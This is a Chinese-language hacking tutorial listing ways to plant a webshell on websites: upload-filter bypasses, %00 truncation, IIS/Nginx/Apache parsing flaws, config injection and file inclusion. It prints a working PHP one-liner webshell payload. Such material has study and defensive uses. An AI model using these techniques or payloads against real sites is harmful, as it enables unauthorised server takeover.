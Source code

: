 webshell

一.获取webshell
(1)正常上传
网站对上传文件后缀格式并未过滤，直接上传webshell

(2)数据库备份拿webshell
网站对上传的文件后缀进行过滤，不予许上传脚本类型文件如php/asp/jsp/aspx等，而网站具有数据库备份功能，这时可以将webshell格式先改为允许上传的文件格式如jpg,gif等，然后，我们找到上传的文件路径，通过数据库备份，将文件备份为脚本格式

(3)本地js验证突破拿webshell
当网站设置了js来限制用户上传的文件类型时，我们可以通过删除js验证或者修改上传类型图突破上传拿webshell

(4)修改网站上传类型配置拿webshell
有的网站，在网站上传类型中限制了上传脚本类型，我们可以去添加上传文件类型如asp|php|jsp等拿webshell

(5)上传其他脚本类型拿webshell
当一台服务器具有多个网站，a网站是asp的站，b可能是php的网站，而a站中限制了上传文件类型为asp的文件。你可以尝试上传php的脚本来拿webshell

(6)00截断拿webshell
在上传文件的时候，你上传的文件名可能会被网站自动改成别的名字，这个时候你可以尝试抓取上传文件数据包，将文件名改为xx.asp%00.jpg进行截断上传，拿webshell

(7)利用解析漏洞拿webshell
a.IIS 5.x/6.0 解析漏洞
目录解析:在网站下建立文件夹名字为.asp .asa的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析
文件解析:在IIS6.0下，分号后面的不被解析，也就是说cracer.asp;.jpg会被服务器看成cracer.asp，还有IIS6.0默认的可执行文件有asp/asa/cer/cdx

b.IIS 7.0/Nginx <8.0畸形解析漏洞
在默认Fast-CGI开启状况下,黑阔上传一个名字为wooyun.jpg，内容为：<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>的文件，然后访问wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php。

c.Nginx < 8.03 空字节代码执行漏洞
Nginx在图片中嵌入PHP代码然后通过访问xxx.jpg%00.php来执行其中的代码.

d.Apache解析漏洞
apache是从右到左开始判断解析，如果为不可识别解析，就再往左判断.比如cracer.php.owf.rar的“.owf”和“.rar”，这两种后缀Apache不可识别解析，Apache就会把cracer.php.owf.rar解析成php

(8)利用编译器漏洞拿webshell

(9)网站配置插马拿webshell
通过找到网站默认配置，将一句话插入到网站配置中，不过为了能够成功执行插马，建议先下载该网站的源码，进行查看源码过滤规则，以防插马失效

(10)修改脚本直接拿webshell
有的网站可以修改脚本文件，可以直接拿webshell

(11)文件包含拿webshell
先将webshell为txt文件上传，在上传一个脚本文件包含该txt文件，可绕过waf拿webshell
asp包含 <!--#include file=”1.txt” -->
php包含<?php include(“1.txt”)?>

(12)0day拿webshell





